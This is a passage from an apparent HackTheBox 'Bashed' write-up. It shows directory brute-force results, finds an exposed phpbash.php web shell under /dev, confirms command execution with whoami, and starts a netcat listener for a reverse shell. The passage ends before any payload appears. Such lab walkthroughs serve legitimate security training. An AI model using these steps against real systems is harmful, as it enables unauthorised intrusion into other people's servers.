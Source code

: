 ```sh
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 7743
________________________________________________

.php                    [Status: 403, Size: 290, Words: 22, Lines: 12, Duration: 12ms]
images                  [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 11ms]
uploads                 [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 18ms]
php                     [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 10ms]
css                     [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 10ms]
dev                     [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 8ms]
js                      [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 22ms]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 12ms]
fonts                   [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 12ms]
.php                    [Status: 403, Size: 290, Words: 22, Lines: 12, Duration: 18ms]
server-status           [Status: 403, Size: 299, Words: 22, Lines: 12, Duration: 28ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```
{% endraw %}

<br />
Check the /dev directory and notice the phpbash.php.

<div class="row justify-content-sm-center">
    <div class="col-sm-8 mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/bashed/dev.png" title="Check the Dev Directory" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Check the phpbash.php and run whoami to confirm code execution.

<div class="row justify-content-sm-center">
    <div class="col-sm-8 mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/bashed/cmd.png" title="Prove command execution" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Start a netcat listener.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/bashed]
└─$ sudo nc -nlvp 443                           
[sudo] password for kali: 
listening on [any] 443 ...
```
{% endraw %}

<br />
Use revshells to generate a payload.
